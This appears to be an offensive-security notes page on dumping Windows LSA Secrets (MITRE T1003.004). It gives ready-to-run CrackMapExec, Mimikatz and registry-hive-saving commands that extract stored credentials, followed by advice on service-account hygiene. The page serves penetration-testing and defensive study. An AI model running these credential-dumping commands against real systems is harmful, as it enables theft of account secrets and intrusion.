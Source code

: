 ```yaml
---
description: MITRE ATT&CK, Credential Access, Sub-technique T1003.004
---
```


# LSA Secrets

### Dumping LSA Secrets

> LSA secrets are stored in the registry at `HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets`. LSA secrets can also be dumped from memory.[\[4\]](https://ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)

```bash
# Dumping LSA Secrets remotely with CrackMapExec
crackmapexec smb $ip -u $user -p $password --lsa

# Dumping LSA Secrets with Mimikatz
lsadump::secrets

# Dumping LSA Secrets manually and then reading them with Mimikatz
reg save HKLM\SYSTEM system & reg save HKLM\security security
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```

### Mitigations

When cleartext credentials are retrieved from LSA Secrets it is due to the credentials being stored for a service (E.g., creating a service with a custom user account).

To mitigate this issue, avoid using a domain account for the service. Best practice is to avoid using a domain user account for services. Rather, create a local account to run the service. If specific domain user rights are needed then create an account with the _specific_ rights required. It should also be stated to **never** use a domain administrator account for a service.

### References

{% embed url="https://www.sentinelone.com/blog/windows-security-essentials-preventing-4-common-methods-of-credentials-exfiltration" %}

{% embed url="https://www.passcape.com/index.php?cmd=details&id=23&section=docsys" %}

{% embed url="https://attack.mitre.org/techniques/T1003/004/" %}
